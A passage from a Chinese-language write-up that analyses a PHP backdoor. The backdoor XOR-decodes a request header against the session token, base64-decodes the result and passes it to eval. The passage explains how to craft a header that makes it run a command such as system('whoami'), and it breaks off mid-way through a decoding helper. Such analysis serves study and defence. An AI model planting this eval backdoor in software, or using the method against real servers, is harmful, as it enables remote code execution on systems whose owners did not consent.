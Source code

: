 同样根据相关知识点，我们可以将以上代码转化为以下：

```php
class E {
        public function __construct($p) {
            $c = "base64_decode";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

意思就是类 `class E` 接受一个参数 `$p`，将其通过 Base64 解密后，放入高危函数 `eval` 内执行  
**那我们想要成功执行命令，就必须控制 `$p` 的传入值**

那我们看看所谓的 `$p` 是从哪里传入的吧：

```php
@new E(set_token($v, $_SESSION['token']));
```

由此可知，`$p` 为 `set_token($v, $_SESSION['token'])` 的执行结果，所以我们要控制 `set_token($v, $_SESSION['token'])` 的内容才能成功执行命令

-   `$v` 参数：从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`
-   `$_SESSION['token']` 参数：给服务器发一个 `TOKEN` 值，会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

明白了两个参数都是从哪来的之后，我们再来看函数 `set_token()`：

```php
function set_token($v,$t) {
    $r="";
    for ($x=0; $x<strlen($v);$x++) {
        if(($x+1)%strlen($t)!=0) {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),($x+1) % strlen($t))));
        } else {
            $r.=chr(ord(substr($v,$x,$x+1))^ord(substr($t,$x%strlen($t),16)));
        }
    }
    return $r;
}
```

简单来说，函数 `set_token($v, $t)` 就是一个加密算法，作用是根据输入的两个字符串 `$v` 和 `$t`，返回一个新的字符串 `$r`  
该函数采用异或（XOR）操作对两个字符串的每个字符进行逐一处理，并将结果拼接成新的字符串返回

而返回的 `$r` 变量，最终会传入 `@new E($r)`，进行 Base64 解密并放入高危函数 `eval` 内执行

打个比方，假设我们想执行系统命令 `whoami`，那 `$r` 变量就应该是 `system('whoami');` Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`  
而 `$r` 变量又是 `set_token($v, $_SESSION['token'])` 的加密结果，看上去很清晰，那目前我们的困境是什么？

那就是我们不知道 `$v` 应该传什么值！！！我们目前只知道 `$t=>$_SESSION['token']` 和执行的最终结果 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，那我们能不能通过这两个变量获得 `$v`呢，当然可以！！！

```php
<?php
function decrypt_token($r, $t) {
    $v = "";
    for ($x = 0; $x < strlen($r); $x++) {
        if (($x + 1) % strlen($t) != 0) {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), ($x + 1) % strlen($t))));
        } else {
            $v .= chr(ord(substr($r, $x, $x + 1)) ^ ord(substr($t, $x % strlen($t), 16)));
        }
    }
    return $v;
}

// 已知的 $t 和 $r 的值
```